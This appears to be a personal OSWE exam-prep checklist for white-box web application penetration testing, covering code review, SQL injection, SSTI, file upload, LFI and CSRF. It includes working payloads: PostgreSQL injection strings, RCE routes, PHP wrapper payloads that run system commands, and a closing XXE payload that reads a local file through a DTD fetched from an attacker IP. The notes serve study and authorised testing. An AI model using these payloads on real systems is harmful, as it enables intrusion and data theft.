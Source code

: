 - Initial discovery
  - [ ] Check cookies and response headers
  - [ ] Check how each user controlled input reflect in the UI (XSS/SSTI)
  - [ ] Loose comparison in PHP (+ magic hashes)
  - [ ] Routing configuration
  - [ ] whitelist/blacklists
  - [ ] "Random" usage or MD5 SHA1 usage
  - [ ] Source of 404 and other error pages
  - [ ] Identify WSS endpoint and client code that interact with it 
  - [ ] Identify serialized values 

- Enabling Logging 
  - [ ] Enable database query logs
  - [ ] PHP display_errors = ON
  - [ ] Log4j configurations
  - [ ] PHP - var_dump
  - [ ] Get error info
    - [ ] Using param[] instead of param to get error messages
    - [ ] Send invalid JSON/XML inputs
  - [ ] Writable files: `find /var/www/html/ -type d -perm -o+w`
  - [ ] Python debugging using - PTVSD 

- Authentication related interesting functions
  - [ ] Session cookie has `httpOnly` flag set (stealing cookie over XSS)
  - [ ] Username enumeration
  - [ ] Login
  - [ ] Registration
  - [ ] Change password
  - [ ] Change email
  - [ ] Confirmation of email update
  - [ ] High authorization functions

- SQLi
  - [ ] Check binary: OR (select 1)=1 --
  - [ ] Check binary with brackets: OR (select 1)=1) --
  - [ ] USERID=1;SELECT (CASE WHEN (1=1) THEN 1 ELSE 0 END)-- 
  - [ ] USERID=1; select+pg_sleep(10);--
  - [ ] USERID=1 UNION SELECT CASE WHEN (SELECT 1)=1 THEN 1 ELSE 0 END--
  - [ ] Escaping
    - [ ] Spaces with: /**/
    - [ ] Quotes with: Hex notation or $$example$$
    - [ ] select convert_from(decode('QVdBRQ==', 'base64'), 'utf-8');
    - [ ] SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
  - [ ] Write file
    - [ ] COPY TO/COPY FROM
    - [ ] LO_IMPORT/LO_EXPORT
  - [ ] RCE
    - [ ] PG extension (DLL)
    - [ ] Java PROCEDURE - HSQLDB
      - [ ] com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename
      - [ ] java.lang.System.getProperty

- CSRF
  - [ ] Is CSRF protection present. 
  - [ ] Can XSS be used to initiate a cross origin request. 

- Interesting function
  - [ ] File upload
    - [ ] Can the base path be altered
    - [ ] ZIP slip
    - [ ] Validation bypass
      - [ ] <https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files>
      - [ ] <https://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html>
      - [ ] <https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload>
  - [ ] File download
    - [ ] Can the base path be altered
  - [ ] Setup operations and database scripts
  - [ ] Configuration structure
  - [ ] Search functions 
  - [ ] APIs
  - [ ] XML/JSON processing functions
  - [ ] Mass assignment
    - [ ] <https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Mass_Assignment_Cheat_Sheet.md>

- SSTI
  - [ ] Check expressions like ({10*10)}
  - [ ] Inject logs `;require('util').log('CODE_EXECUTION');`
  - [ ] <https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf>

- Payloads 
  - [ ] FuzzDB <https://raw.githubusercontent.com/fuzzdb-project/fuzzdb/master/attack/os-cmd-execution/command-injection-template.txt>
  - LFI
    - [ ] `/proc/self/cmdline`
  - [] `{var} ${var} {{var}} <%var%> [% var %]`

- Exam tips
  - [ ] Search technology inside OSWE notes
  - [ ] Search technology in Payload All The Things repo 
  - [ ] .dockerenv / env / cron
  - [ ] `php://filter/read=convert.base64-encode/resource=example.php`
  - [ ] `data://text/plain,<?php echo system(“uname -a”);?>`
  - [ ] graphql
  - [ ] .Net fiddle
  - [ ] <https://github.com/blabla1337/skf-labs>
  - [ ] <https://www.tunnelsup.com/hash-analyzer/>

- Steps
  - What are the exposed functions to non-auth users
  - How admin panel / user panel check if user is logged in
  - Login/registration/forgot-password/logout functions
  
XXE
```xml
<!ENTITY wrapper "%start;%file;%end;">

<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "file:///home/student/crx/data/hsqldb/dbmanager.sh" >
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://192.168.119.120/wrapper.dtd" >
%dtd;
]>
<org.opencrx.kernel.account1.Contact>
<lastName>&wrapper;</lastName>
<firstName>Tom</firstName>
</org.opencrx.kernel.account1.Contact>
```
